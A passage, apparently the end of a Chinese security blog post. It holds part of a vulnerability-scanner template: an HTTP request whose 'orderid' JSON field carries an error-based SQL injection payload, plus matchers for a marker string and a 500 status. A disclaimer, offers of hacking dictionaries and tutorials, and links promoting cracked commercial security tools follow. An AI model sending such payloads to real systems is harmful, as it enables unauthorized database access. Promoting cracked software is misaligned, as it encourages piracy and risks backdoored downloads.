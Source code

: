(Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0      Accept: application/json, text/javascript, */*; q=0.01      Priority: u=0      Accept-Encoding: gzip, deflate      X-Requested-With: XMLHttpRequest             {"orderid":"1' AND 7755 IN (SELECT (CHAR(113)+CHAR(107)+CHAR(112)+CHAR(122)+CHAR(113)+(SELECT (CASE WHEN (7755=7755) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(113)+CHAR(107)+CHAR(107)+CHAR(113)))-- Ahbw","apptoken":"1","ordertype":"1"}    matchers-condition: and    matchers:      - type: word        words:        - "qkpzq1qqkkq"      - type: status        status:        - 500  
  
**结尾**  
  
# 免责声明  
  
  
# 获取方法  
  
  
回复“**app**  
" 获取  app渗透和app抓包教程  
  
回复“**渗透字典**" 获取 针对一些字典重新划分处理，收集了几个密码管理字典生成器用来扩展更多字典的仓库。  
  
回复“**书籍**" 获取 网络安全相关经典书籍电子版pdf  
  
压缩包解压密码：HackTwo  
  
  
  
# 免责声明  
  
  
        
文章中的案例或工具仅面向合法授权的企业安全建设行为，如您需要测试内容的可用性，请自行搭建靶机环境，勿用于非法行为。如  
用于其他用途，由使用者承担全部法律及连带责任，与作者和本公众号无关。  
本项目所有收录的poc均为漏洞的理论判断，不存在漏洞利用过程，不会对目标发起真实攻击和漏洞利用。文中所涉及的技术、思路和工具仅供以安全为目的的学习交流使用。  
如您在使用本工具或阅读文章的过程中存在任何非法行为，您需自行承担相应后果，我们将不承担任何法律及连带责任。  
本工具或文章或来源于网络，若有侵权请联系作者删除，请在24小时内删除，请勿用于商业行为，自行查验是否具有后门，切勿相信软件内的广告！  
  
  
  
# 往期推荐  
  
  
**1. 内部VIP知识星球福利介绍V1.3版本**  
  
**2. 最新BurpSuite2023.12.1专业版中英文版下载**  
  
**3. 最新Nessus2024下载Windows/Linux**  
  
[4. 最新xray1.9.11高级版下载Windows/Linux](http://mp.weixin.qq.com/s?__biz=Mzg3ODE2MjkxMQ==&mid=2247483882&idx=1&sn=e1bf597eb73ee7881ae132cc99ac0c8e&chksm=cf16a75af8612e4c73eda9f52218ccfc6de72725eb37aff59e181435de095b71e653b446c521&scene=21#wechat_redirect)  
  
  
[5. 最新HCL AppScan Standard 10.4.128273破解版下载](http://mp.weixin.qq.com/s?__biz=Mzg3ODE2MjkxMQ==&mid=2247483850&idx=1&sn=8fad4ed1e05443dce28f6ee6d89ab920&chksm=cf16a77af8612e6c688c55f7a899fe123b0f71735eb15988321d0bd4d14363690c96537bc1fb&scene=21#wechat_redirect)  
  